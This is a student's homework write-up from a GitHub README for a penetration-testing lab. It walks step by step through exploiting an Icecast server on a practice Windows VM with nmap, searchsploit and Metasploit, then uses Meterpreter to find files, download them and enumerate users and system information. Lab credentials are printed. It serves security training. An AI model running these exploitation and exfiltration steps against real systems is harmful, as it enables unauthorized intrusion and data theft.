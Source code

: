 # Week-17-Homework-Penetration-Testing-1

## Report

The report in which the following theory takes place can be found here:

[Report](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-2/blob/main/Report.docx)

## Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.

## Reminders

A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor

Target machine: DVW10 IEUser:Passw0rd!

NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to begin the activity.

## Deliverable

Once you complete this assignment, submit your findings in the following document:

[Report](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-2/blob/main/Report.docx)

## Instructions

### You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

**Perform a service and version scan using Nmap to determine which services are up and running:**

**Run the Nmap command that performs a service and version scan against the target.**

Answer: `nmap -sV 192.168.0.20`

![Nmap Scan](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/nmap%20scan.png)

**From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:**

**Run the SearchSploit commands to show available Icecast exploits.**

Answer: `searchsploit icecast`

![Searchsploit Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/searchsploit%20icecast.PNG)

**Now that we know which exploits are available to us, let's start Metasploit:**

**Run the command that starts Metasploit:**

Answer: `msfconsole`

![msfconsole](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/msfconsole.PNG)

**Search for the Icecast module and load it for use.**

**Run the command to search for the Icecast module:**

Answer: `search icecast`

![Search Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20icecast.PNG)

**Run the command to use the Icecast module:**
**Note: Instead of copying the entire path to the module, you can use the number in front of it.**

Answer: `use exploit/windows/http/icecast_header`

We can also use the number in front of the exploit from the list provided from the search - `use 0`

![use Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/use%20icecast.PNG)

**Set the RHOST to the target machine.**

**Run the command that sets the RHOST:**

Answer: `set RHOST 192.168.0.20`

![Set RHOST 1](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%201.PNG)

![Set RHOST 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%202.PNG)

**Run the Icecast exploit.**

**Run the command that runs the Icecast exploit.**

Answer: `exploit` (while in module)

![Exploit command](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/exploit.PNG)

**Run the command that performs a search for the secretfile.txt on the target.**

Answer: `search -f *secretfile*.txt` 

This command will place a wildcard in front of and behind 'secretfile' in 'secretfile.txt', meaning the search will look for anything that contains 'secretfile.txt' as well as any other text files that have anything before or after 'secretfile.txt'.

![search secretfile](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20secret.PNG)

**You should now have a Meterpreter session open.**

**Run the command to performs a search for the recipe.txt on the target:**

Answer: `search -f *recipe*.txt`

![search recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20recipe.PNG)

**Bonus: Run the command that exfiltrates the recipe.txt file:**

Answer: `download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'`

![Download recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/download%20Drinks.recipe.png)

The file is exfiltrated to the attacker machine's home folder:

![Download recipe 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/download%20drinks.recipe%202.PNG)

**You can also use Meterpreter's local exploit suggester to find possible exploits.**

**Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.**

Answer: While still on the victim's machine in meterpreter shell: `run post/multi/recon/local_exploit_suggester`

![local exploit suggester](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/run%20meterpreter%20local%20exploit%20suggester.PNG)

### Bonus
**A. Run a Meterpreter post script that enumerates all logged on users.**

Answer: `run post/windows/gather/enum_logged_on_users`

![logged on users](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/logged%20on%20users.PNG)

**B. Open a Meterpreter shell.**

Answer: `shell`

![shell](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/shell.PNG)

We are now in the native shell environment for the victim machine. In this case it is command prompt or cmd.

**C. Run the command that displays the target's computer system information:**

Answer: `sysinfo`

![sysinfo 1](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/sysinfo%201.PNG)

We can also gather further system information by going into the native shell and running a command that is similar. In this case we can use the `systeminfo` command that is used in cmd:

![sysinfo 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/systeminfo.PNG)
